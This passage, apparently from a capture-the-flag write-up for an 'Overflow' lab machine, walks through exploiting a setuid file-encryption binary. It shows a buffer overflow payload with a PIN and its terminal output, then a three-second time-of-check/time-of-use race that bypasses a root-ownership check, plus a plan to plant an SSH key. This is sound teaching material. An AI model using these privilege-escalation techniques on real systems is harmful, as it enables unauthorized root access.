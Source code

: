 

This will just print the pin, newline, the overflow to return to
`encrypt`, newline, the input file, newline, and output file, newline. I
can run that to generate the input needed to encrypt a file:



    tester@overflow:/opt/file_encrypt$ python3 /tmp/sploit.py /tmp/0xdf /tmp/out | ./file_encrypt 
    This is the code 1804289383. Enter the Pin: name: Thanks for checking. You can give your feedback for improvements at developer@overflow.htb
    Segmentation fault (core dumped)
    tester@overflow:/opt/file_encrypt$ xxd /tmp/out 
    00000000: d3fe f7f7 f4bb ecf4 e9f7 ff91            ............



In this case I'm doing in one line what I did above, encrypting my file
with "Hello world", and getting the same output.

### Get root Files

#### root.txt

There's still the check preventing reading of files owned by root:



    tester@overflow:/opt/file_encrypt$ ./file_encrypt 
    This is the code 1804289383. Enter the Pin: -202976456
    name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV
    Thanks for checking. You can give your feedback for improvements at developer@overflow.htb
    Enter Input File: /root/root.txt
    Enter Encrypted File: /tmp/root.txt
    File /root/root.txt is owned by root



To get around this, I'll take advantage of a time of check/time of use
vulnerability here:



      if (stat_struct.st_uid == 0) {
        fprintf(stderr,"File %s is owned by root\n",user_infile);
                        /* WARNING: Subroutine does not return */
        exit(1);
      }
      sleep(3);
      fd_input = fopen(user_infile,"rb");



There are three seconds between when the ownership of the file is
checked and when the file is opened. To make this exploit reliable, I'll
add my ssh key to tester's `authorized_keys` file and get three ssh
sessions.

I'll work out of `/tmp/0xdf`. There are some protections in place that
make working out of just `/tmp` actually fail.
